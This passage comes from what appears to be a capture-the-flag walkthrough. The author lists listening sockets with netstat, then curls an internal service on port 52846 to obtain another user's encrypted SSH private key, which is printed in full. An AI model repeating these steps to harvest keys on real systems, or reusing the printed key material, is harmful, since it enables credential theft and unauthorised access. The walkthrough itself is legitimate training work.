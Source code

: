This script will print the ssh private key of `joanna` if we can get it to execute. It looks like it's being served, since it has a location specified in the file `/index.php`, so let's see what network connections are currently active on the box.

The command `$ netstat -tulp` will show us TCP and UDP sockets that are listening, and print the PID and name of the program to which each socket belongs.

```bash
$ netstat -tulp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN      -
tcp        0      0 localhost:52846         0.0.0.0:*               LISTEN      -
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -
tcp6       0      0 [::]:http               [::]:*                  LISTEN      -
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN      -
udp        0      0 localhost:domain        0.0.0.0:*                           -
```

Looks like port `52846` has something running on it. Let's see if it's the script we want.

```bash
$ curl 127.0.0.1:52846/main.php
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
